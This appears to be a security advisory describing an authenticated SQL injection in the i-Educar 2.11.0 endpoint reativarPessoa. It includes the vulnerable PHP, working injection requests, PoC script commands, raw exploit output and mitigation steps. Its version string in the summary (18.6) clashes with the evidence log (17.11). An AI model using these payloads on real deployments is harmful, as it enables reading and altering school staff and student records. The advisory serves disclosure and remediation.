

# Error-based SQL injection in `PessoaController::reativarPessoa()`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-89 Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') — https://cwe.mitre.org/data/definitions/89.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = **8.8 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `GET /module/Api/Pessoa?oper=get&resource=reativarPessoa` — parameter(s): `id`
- **Authentication:** login required (verified with `admin`)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

`reativarPessoa()` reads the `id` request parameter into `$var1` and
interpolates it directly into
`UPDATE cadastro.fisica SET ativo = 1 WHERE idpes = $var1`. Despite the method
name `fetchPreparedQuery()`, the SQL string is executed without binding. The
PoC injects `1 AND CAST((SELECT version()) AS INT)=1`; PostgreSQL evaluates the
expression for the matching row and returns
`invalid input syntax for type integer: "PostgreSQL 18.6 ..."` inside the JSON
error. The statement aborts on the cast error, so no record is modified.

## Root cause

`ieducar/modules/Api/Views/PessoaController.php:726`:

```php
protected function reativarPessoa()
{
    $var1 = $this->getRequest()->id;
    $sql = "UPDATE cadastro.fisica SET ativo = 1 WHERE idpes = $var1";
    $fisica = $this->fetchPreparedQuery($sql);

    return $fisica;
}
```

`fetchPreparedQuery()` passes the finished SQL string to the driver; it does
not replace placeholders. The `id` value is concatenated raw (not even cast to
int), so an attacker controls the whole `WHERE` expression.

## Proof of concept

1. Log in.
2. Control request:
   `GET /module/Api/Pessoa?oper=get&resource=reativarPessoa&id=999999`
   → `HTTP 200 {"oper":"get","resource":"reativarPessoa","msgs":[],"any_error_msg":false}`.
3. Injection request:
   `GET /module/Api/Pessoa?oper=get&resource=reativarPessoa&id=1%20AND%20CAST%28%28SELECT%20version%28%29%29%20AS%20INT%29=1`
   → `HTTP 200` with the PostgreSQL version in the error message.
4. No cleanup is required: the cast error aborts the UPDATE.

```bash
python3 i-explorar.py            # pick [10]
# or standalone:
python3 vulns/10-pessoa-reativar-sql-injection/poc.py --target http://127.0.0.1:8080
```

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001725Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:25.812047+00:00
# host: -03
# target: http://127.0.0.1:8080

### control: id=999999
HTTP 200

--- body ---
{"oper":"get","resource":"reativarPessoa","msgs":[],"any_error_msg":false}
--- end body ---

### injection: id=1 AND CAST((SELECT version()) AS INT)=1
HTTP 200

--- body ---
{"oper":"get","resource":"reativarPessoa","msgs":[{"msg":"Exception: Erro ao preparar consulta (UPDATE cadastro.fisica SET ativo = 1 WHERE idpes = 1 AND CAST((SELECT version()) AS INT)=1) no banco de dados: Exception: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type integer: \"PostgreSQL 17.11 on x86_64-pc-linux-musl, compiled by gcc (Alpine 15.2.0) 15.2.0, 64-bit\" (Connection: pgsql, Host: postgres, Port: 5432, Database: ieducar, SQL: UPDATE cadastro.fisica SET ativo = 1 WHERE idpes = 1 AND CAST((SELECT version()) AS INT)=1)","type":"error"}],"any_error_msg":true}
--- end body ---
# finished_at: 2026-09-11T00:17:26.331706+00:00
```

## Screenshots



Caption: raw PoC log rendered as an image — clean control response and the
injected UPDATE returning the PostgreSQL version in the JSON error.

## Impact

An authenticated user can:

- read arbitrary data from the database through error-based or boolean-based
  subqueries even though the sink is an `UPDATE`;
- rewrite the `WHERE` clause to reactivate (or, through error-based
  subqueries, target) arbitrary rows of `cadastro.fisica`;
- manipulate person records that other screens treat as authoritative
  (staff/student identity data), which can feed privilege escalation.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Bind the parameter: `WHERE idpes = $1` with `['params' => [(int) $var1]]`,
  or cast to int (`(int) $var1`) before interpolation as a short-term fix.
- Audit other `fetchPreparedQuery()` callers in `modules/Api/Views` for the
  same string-concatenation pattern; the misleading name invites this bug.
- Constrain the database role used by the API layer.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/10-pessoa-reativar-sql-injection/README.md
